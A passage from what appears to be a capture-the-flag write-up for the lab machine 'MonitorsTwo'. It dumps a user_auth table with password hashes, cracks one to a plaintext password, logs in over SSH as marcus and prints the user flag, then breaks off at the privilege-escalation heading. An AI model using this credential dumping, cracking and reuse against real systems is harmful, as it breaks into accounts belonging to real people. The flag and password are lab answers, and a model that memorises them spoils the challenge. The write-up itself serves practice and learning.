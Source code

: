 Discovering another user `marcus`
```shell
SELECT * FROM user_auth;

exit
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfail	reset_perms
1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	0	Jamie Thompson	admin@monitorstwo.htb		on	on	on	on	on	2	1	1	1	1	on	-1	-1	-1		0	0	663348655
3	guest	43e9a4ab75570f5b	0	Guest Account		on	on	on	on	on	3	1	1	1	1	1		-1	-1	-1		0	0	0
4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb			on	on	on	on	1	1	1	1	1	on	-1	-1	on	0	0	2135691668



admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC - Jamie Thompson	admin@monitorstwo.htb
guest:43e9a4ab75570f5b - 
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C - Marcus Brune	marcus@monitorstwo.htb
```

Decrypting `marcus` password
```
https://hashes.com/en/decrypt/hash

$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hj # Unknown hash of admin
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

<br>

### User.txt

```shell
ssh marcus@monitorstwo.htb
funkymonkey

marcus@monitorstwo:~$ ls
user.txt
marcus@monitorstwo:~$ cat user.txt
f7ea249014687aac49df50ee5d6c7bd6
```

<br>

## Path to Power (Gaining Administrator Access)

### Enumeration as user `marcus`
